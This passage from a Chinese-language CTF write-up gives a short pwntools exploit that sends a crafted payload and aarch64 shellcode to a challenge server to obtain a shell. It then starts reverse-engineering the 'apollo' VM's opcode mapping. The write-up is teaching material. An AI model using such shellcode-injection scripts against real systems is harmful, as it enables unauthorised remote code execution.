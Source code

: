 于是直接写一个exp打即可, 

```python
from pwn import * 

context(os='linux', arch='aarch64', log_level='debug')
cn = remote("8.140.179.11", 51322)

shell = asm(shellcraft.aarch64.sh())

leng = len(shell)
payload = "#)" * leng + "(" * leng + "G" 

cn.sendline(payload)
cn.sendline(shell)
cn.interactive()
```

## apollo

### 逆向分析

#### opcode映射

这个分析起来可能比较复杂了， 仍然是一台虚拟机， 

![](https://i.loli.net/2021/05/18/5OCQBTHGSwE6cUN.png)

![](https://i.loli.net/2021/05/18/tmjdoGeZIgULpPa.png)

![](https://i.loli.net/2021/05/18/Kq9Uo1vZDgaiE4Q.png)

进行调试和汇编层面的分析， 大概是输入的字符和通过`.rodata:0000004000003770 opcode_map`数组转为opcode后运行， 导出数组并恢复映射关系：

```python 
arr = [10, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 1, 3, 11, 4, 11, 2, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 0, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 7, 11, 11, 8, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 9, 11, 11, 6, 11, 11, 11, 5, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11, 11] 


opcode = [] 

for i in range(0x100):
	if arr[i] not in opcode:
		print(chr(i), arr[i])
		opcode.append(arr[i])
```
